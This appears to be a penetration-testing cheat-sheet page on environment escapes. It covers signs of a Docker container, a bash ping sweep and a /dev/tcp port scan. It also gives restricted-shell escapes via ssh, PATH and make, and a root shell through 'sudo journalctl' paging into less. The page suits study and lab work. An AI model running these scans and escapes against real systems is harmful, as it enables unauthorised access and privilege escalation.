 ```yaml
---
icon: arrow-up-left-from-circle
---
```


# Environment Escapes

{% hint style="info" %}
### <mark style="color:orange;">`Docker`</mark>

#### <mark style="color:red;">`Indicators`</mark><mark style="color:purple;">:</mark>

* <mark style="color:purple;">The presence of</mark> <mark style="color:orange;">**`.dockerenv`**</mark> <mark style="color:purple;">in the system root</mark>
* <mark style="color:purple;">Permissions on files show number ids instead of names, this happens when the host users doesn't exist in the</mark> <mark style="color:orange;">**`/passwd`**</mark> <mark style="color:purple;">file from the container</mark>
* <mark style="color:purple;">Docker containers typically run in a private virtual network created by Docker, and the default network uses a subnet in the range</mark> <mark style="color:orange;">**`172.16.0.0/12`**</mark>
* <mark style="color:purple;">No User</mark> <mark style="color:orange;">**`1000`**</mark><mark style="color:purple;">, and the Home Directory Is Mounted.</mark>

***

#### <mark style="color:red;">`Enumeration`</mark><mark style="color:purple;">:</mark>

{% code title="Check the internal networking" %}
```bash
ifconfig
```
{% endcode %}

{% code title="File permissions and ownership" %}
```bash
ls -l
```
{% endcode %}

{% code title="Ping Sweep" overflow="wrap" %}
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
{% endcode %}

{% code title="Port Scan" overflow="wrap" %}
```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:purple;">Escape</mark> <mark style="color:orange;">`rbash`</mark>

* <mark style="color:purple;">It's possible to do it directly connecting with</mark> <mark style="color:orange;">**`ssh`**</mark><mark style="color:purple;">:</mark>

```sh
ssh -i priv_key drno@10.10.10.124 -t bash
```

* <mark style="color:purple;">Or directly changing the</mark> <mark style="color:orange;">**`PATH`**</mark><mark style="color:purple;">**:**</mark>

```sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

***

* <mark style="color:purple;">Is also possible by using</mark> <mark style="color:orange;">**`make`**</mark><mark style="color:purple;">. First sets a variable</mark> <mark style="color:orange;">**`COMMAND`**</mark> <mark style="color:purple;">with the value</mark> <mark style="color:orange;">**`/bin/bash`**</mark><mark style="color:purple;">**:**</mark>

```sh
 COMMAND='/bin/bash'
```

* <mark style="color:purple;">Then, execute</mark> <mark style="color:orange;">**`make`**</mark> <mark style="color:purple;">in silent mode (</mark><mark style="color:orange;">**`-s`**</mark><mark style="color:purple;">) and evaluates the string</mark> <mark style="color:orange;">**`x:`**</mark> <mark style="color:purple;">containing the shell:</mark>

```sh
make -s --eval=$'x:\n\t-'"$COMMAND"
```

* <mark style="color:purple;">Finish it up by fixing the</mark> <mark style="color:orange;">**`PATH`**</mark><mark style="color:purple;">**:**</mark>

```sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:orange;">`sudo journalctl`</mark> <mark style="color:purple;">via</mark> <mark style="color:orange;">`less`</mark>&#x20;

* <mark style="color:orange;">**`journalctrl`**</mark> <mark style="color:purple;">will output to stdout if it can fit onto the current page, but into</mark> <mark style="color:orange;">**`less`**</mark> <mark style="color:purple;">if it can’t.</mark>
* <mark style="color:purple;">When invoked with</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">is possible to have code execution as</mark> <mark style="color:orange;">**`root`**</mark> <mark style="color:purple;">just by pressing</mark> <mark style="color:orange;">**`!`**</mark> <mark style="color:purple;">in the</mark> <mark style="color:orange;">**`less`**</mark> <mark style="color:purple;">environment.</mark>
{% endhint %}

